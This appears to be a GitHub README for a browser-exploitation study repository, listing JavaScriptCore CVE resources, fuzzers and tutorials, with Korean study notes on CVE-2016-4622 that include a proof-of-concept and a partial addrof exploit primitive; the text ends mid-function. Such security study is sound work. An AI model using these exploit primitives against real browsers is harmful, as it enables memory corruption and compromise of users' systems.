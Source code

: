 # Extra

moar JavaScriptCore CVEs:

- [https://github.com/tunz/js-vuln-db#javascriptcore](https://github.com/tunz/js-vuln-db#javascriptcore)

Fuzzilli - A JavaScript Engine Fuzzer:

- [https://github.com/googleprojectzero/fuzzilli](https://github.com/googleprojectzero/fuzzilli)
- [https://saelo.github.io/presentations/offensivecon_19_fuzzilli.pdf](https://saelo.github.io/presentations/offensivecon_19_fuzzilli.pdf)
- [https://saelo.github.io/papers/thesis.pdf](https://saelo.github.io/papers/thesis.pdf)
- [https://www.youtube.com/watch?v=OHjq9Y66yfc](https://www.youtube.com/watch?v=OHjq9Y66yfc)

CodeAlchemist - Semantics-aware Code Generation for Finding JS engine Vulnerabilities

- [https://github.com/SoftSec-KAIST/CodeAlchemist](https://github.com/SoftSec-KAIST/CodeAlchemist)
- [https://daramg.gift/paper/han-ndss2019.pdf](https://daramg.gift/paper/han-ndss2019.pdf)
- [https://www.ndss-symposium.org/wp-content/uploads/ndss2019_05A-5_Han_slides.pdf](https://www.ndss-symposium.org/wp-content/uploads/ndss2019_05A-5_Han_slides.pdf)
- [https://www.youtube.com/watch?v=OB2kN-3vrh4](https://www.youtube.com/watch?v=OB2kN-3vrh4)

LiveOverflow's Browser Exploitation Video Tutorial:

- [https://www.youtube.com/playlist?list=PLhixgUqwRTjwufDsT1ntgOY9yjZgg5H_t](https://www.youtube.com/playlist?list=PLhixgUqwRTjwufDsT1ntgOY9yjZgg5H_t)
- [https://liveoverflow.com/tag/browser-exploitation/](https://liveoverflow.com/tag/browser-exploitation/)

# TroubleShooting

```
# ./bin/jsc: error while loading shared libraries: libicui18n.so.52: cannot open shared object file: No such file or directory
$ sudo dpkg -i troubleshooting/libicu52_52.1-3ubuntu0.4_amd64.deb

```

# notepad

## CVE-2016-4622

Attacking JavaScript Engines Korean Verion 정독 끗 > 디버깅 필요함
poc 새로 짜고 대충 addrof 랑 fakeobj 어떻게 조지는지 요약 정리 따로 해야대나? 흠;

```
function poc(){
	var a = [];
	for (var i = 0; i < 100; i++)
	    a.push(i + 0.123);

	var b = a.slice(0, {valueOf: function() { a.length = 0; return 10; }});
	// b = [0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0]
}

function addrof(object) {
    var a = [];
    for (var i = 0; i < 100; i++)
        a.push(i + 0.1337);   // 배열의 타입이 반드시 ArrayWithDouble 여야 함

    var hax = {valueOf: function() {
        a.length = 0;
        a = [object];
        return 4;
```